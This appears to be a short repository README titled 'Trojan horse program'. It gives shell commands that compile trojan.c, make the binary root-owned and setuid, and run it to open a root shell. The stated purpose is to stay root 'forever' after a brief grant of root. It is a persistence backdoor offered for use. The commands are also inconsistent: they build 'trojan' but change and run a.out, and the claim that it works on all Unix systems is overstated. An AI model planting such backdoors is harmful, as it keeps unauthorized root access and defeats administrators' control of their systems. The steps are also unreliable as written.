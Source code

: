 ## Trojan horse program

```
gcc -o trojan trojan.c
sudo chown root a.out
sudo chmod u+s a.out
./a.out sudo su root -
```

The program allows being root forever once you have been granted root for a moment.
This works on all Unix based systems.
